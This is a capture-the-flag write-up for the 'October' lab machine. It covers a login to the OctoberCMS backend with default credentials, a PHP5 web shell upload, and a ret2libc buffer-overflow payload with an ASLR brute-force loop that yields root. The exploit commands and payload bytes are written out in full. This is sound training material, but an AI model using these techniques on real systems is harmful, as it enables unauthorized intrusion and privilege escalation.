 # October

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

We don't need to add anything into the hosts file.

### OctoberCMS

The website was running OctoberCMS and appears to have a default look:

<figure><img src="../../../.gitbook/assets/image (10) (1) (3).png" alt=""><figcaption></figcaption></figure>

Registering an account and trying to do stuff with it was useless and had no functionalities. So instead, we can abuse the fact that OctoberCMS is an open-source project. A quick Google search reveals that the backend of this is at `/backend`:

{% embed url="https://octobercms.com/forum/post/how-do-i-access-the-backend" %}

<figure><img src="../../../.gitbook/assets/image (40) (3).png" alt=""><figcaption></figcaption></figure>

We can use the default credentials of `admin:admin`.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (2) (2).png" alt=""><figcaption></figcaption></figure>

OctoberCMS has quite a few exploits:

{% embed url="https://www.exploit-db.com/exploits/41936" %}

We can use one of them to upload a `cmd.php5` file to execute on the server, as `php5` is not blocked on the server:

<figure><img src="../../../.gitbook/assets/image (6) (1) (4).png" alt=""><figcaption></figcaption></figure>

We can confirm we have RCE via `curl`.

<figure><img src="../../../.gitbook/assets/image (37) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

Getting a reverse shell is then trivial.

## Privilege Escalation

### Ret2Libc

I ran a LinPEAS scan on the machine, and found this weird SUID binary called `overflw`:

<figure><img src="../../../.gitbook/assets/image (35) (4).png" alt=""><figcaption></figcaption></figure>

I opened it up in Ghidra to view what it does:

<figure><img src="../../../.gitbook/assets/image (27) (1) (4).png" alt=""><figcaption></figcaption></figure>

It appears we have a classic BOF expliot to do here. The `strcpy` function is vulnerable, and the buffer is pretty short. Doing a `checksec` reveals that NX is enabled but PIE is disabled:

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

In this case, we can go for a Ret2Libc attack. First, we find the buffer size:

<figure><img src="../../../.gitbook/assets/image (38) (1) (1).png" alt=""><figcaption></figcaption></figure>

Fixed at 112 it appears (same as length of `local_74`). Now, we can use `ldd` to find the address where `libc` is loaded on the machine:

<figure><img src="../../../.gitbook/assets/image (42) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we can simply execute the following commands to get the addresses we need

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e " system@" -e " exit@"
strings -a -t x /lib/i386-linux-gnu/libc-2.27.so | grep "/bin/sh"
```

Afterwards, we can use a python one-liner to print the contents of the payload:

{% code overflow="wrap" %}
```python
python2 -c 'print"\x90" * 112 + "\x10\x83\x62\xb7" + "\x60\xb2\x61\xb7" + "\xac\xab\x74\xb7"'
```
{% endcode %}

When run however, it didn't work on the machine. Turns out, the machine itself already had ASLR enabled, and this can be verified in `/proc/sys/kernel/randomize_va_space`. Also, when checking the addresses, it seems to randomly shift each time.

In this case, we can check the **range of addresses which ASLR spans**. In this case, the range of addreses looks rather small since `libc` is loaded at roughly the same location:

```
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc  
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b1000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb763b000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7606000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7626000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7591000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7624000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7558000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7567000)
```

So, we can set up a `bash` script to keep looping until we get a successful exploit.&#x20;

{% code overflow="wrap" %}
```bash
while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (39) (1) (4).png" alt=""><figcaption></figcaption></figure>

Rooted!
